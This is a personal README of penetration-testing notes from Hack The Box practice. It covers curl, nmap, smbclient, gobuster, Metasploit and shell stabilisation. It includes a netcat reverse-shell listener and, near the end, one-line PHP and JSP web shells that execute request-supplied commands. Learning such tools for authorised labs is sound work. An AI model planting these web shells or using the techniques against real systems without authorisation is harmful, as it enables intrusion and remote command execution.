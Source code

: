 # HackTheWorld
This is a Repository made by William Torres for the purpose of housing knowledge and notes that may come in handy when pentesting.
Housing information that I am learning throughout my journey in Hack-The-Box. 

## I may **HACKTHEWORLD.**

### **CHEAT SHEET- https://devhints.io/curl**

## cURL is used for sending GET/POST requests to http/s

Curl can be used to get files or send data to servers using just command line and doing it fast. 

CURL 

-s silent most noise and make it easier to read

-v Verbose, easier to understand and shows almost everything included in request and connection

-i used to see request head and body

-I capitol i and used to see JUST header of request. 

-X sending a specific request such as POST or PUT, 

-d “DATA”; example with key for key.php ‘-d “key=UNENCRYPTED_KEY_HERE”

-L follows redirects page may give after login

-u username:pass used for logins with credentials if using login after url loads

## Structure of cURL

**basic connection**

$ curl http://<SERVER_IP>:<PORT>/ 

**if sending http authentication for logins with basic auth**

$ curl http://username:password@<SERVER_IP>:<PORT>/

**if sending with login using PHP logins after CONNECTION**

$ curl -X POST -u ‘username:admin&password:admin’ http://<SERVER_IP>:<PORT>/

## App/software/programs

- **SSH**
- **Netcat/ncat/nc**
    - Socat
    - Reverse shell capability using:
    - $ nc -lvnp 1234: listen for connection via only IP on port 1234
- **TMUX**
    - CTRL-B for prefix
        - SHIFT+”: splits up and down
        - SHIFT+%: splits to left or right
        - SHIFT+$: rename
        - Z: pause and unpause tmux
- **FTP**
- **SMB**(server message block)
    - SMB Client
        - necessary for attacks to open smb.
        - -N silences authentication if not needed and used to list shares
        - -L lists smb shares of available
        - $ smbclient -N -L \\\\<IP_ADDRESS>: used to list shares on smb port for a machine
- **NMAP**
    - -sC: makes nmap use scripts to obtain more information
    - -sV: makes nmap run a version scan.
    - -p-: makes nmap run all TCP ports
    - nmap --script <script name> -p<port> <host>: runs script in nmap
    - nmap -sV --script=banner <target>: grabs banner during scan of serviceversions.
    - SMD ENUMERATION: [SMD SCRIPT](https://nmap.org/nsedoc/scripts/smb-os-discovery.html)
- **GoBuster**
    - tool that allows for performing DNS, vhost, and directory brute-forcing
    - $ gobuster dir -u http://<IP_ADDRESS>/ -w /path/to/common/wordlist.txt
- **Metasploit**
    - $ msfconsole: starts metasploit
        - > search exploit <NAME>
        - > USE *copy path to exploit”
        - > show options: configures current exploit before deploy
        - > set <option> <value>: example for setting RHOSTS, the “victim” to ip 10.10.10.40
            - > set RHOSTS 10.10.10.40
        - > check: verifies if RHOST is actually vunerable to this attack.
        - > run | exploit
    - Searchsploit
- ExploitDB
- Github, [payloadAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/)
- Github, [Privilege Escalation Awesome Scripts SUITE (PEASS)](https://github.com/peass-ng/PEASS-ng)
  
## Shell commands

$ python -c ‘import pty; pty.spawn(“/bin/bash”)’

upgrades shell connection to python/stty shell

CTRL+Z pause session in bash connection

input following stty command

$ stty raw -echo

$ fg

[enter]

## Resize STTY terminal

*in normal terminal:* $ echo $term

*in stty:* $ stty size

## Web Shell

`<?php system($_REQUEST["cmd"]); ?>`

opens web shell running php

same is JSP
`<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>`
## LINKS

### Common Ports - [Wayback Machine](https://web.archive.org/web/20240315102711/https://packetlife.net/media/library/23/common-ports.pdf)

### VIM Cheat Sheet - [Watch Your Eyez](https://vimsheet.com/)

### HTTP STATUS CODES - [WIKIPEDIA WOOO](https://en.wikipedia.org/wiki/List_of_HTTP_status_codes)

### HackTricks - [Pretty Cool Site](https://book.hacktricks.wiki/en/index.html)
